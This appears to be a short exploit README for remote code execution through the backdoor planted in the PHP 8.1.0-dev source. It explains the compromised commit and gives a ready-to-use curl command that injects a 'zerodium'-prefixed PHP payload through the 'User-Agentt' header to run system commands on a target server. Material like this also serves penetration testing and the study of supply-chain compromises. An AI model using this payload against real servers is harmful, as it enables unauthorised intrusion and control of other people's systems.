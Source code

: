 # PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution

## Requirements

 - The server needs to run on a specific backdoored version of PHP (PHP-8.1.0-dev)

## Exploitation

A compromised git account pushed code to the PHP source repository adding a backdoor in commit [c730aa26bd52829a49f2ad284b181b7e82a68d7d](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d). 

You can execute PHP code (prefixed by the string `zerodium`) on the remote machine through the `User-Agentt` header:

```sh
curl 'http://TARGET/' --header "User-Agentt: zerodiumsystem('id');"
```

## References
 - https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
 - https://news-web.php.net/php.internals/113838
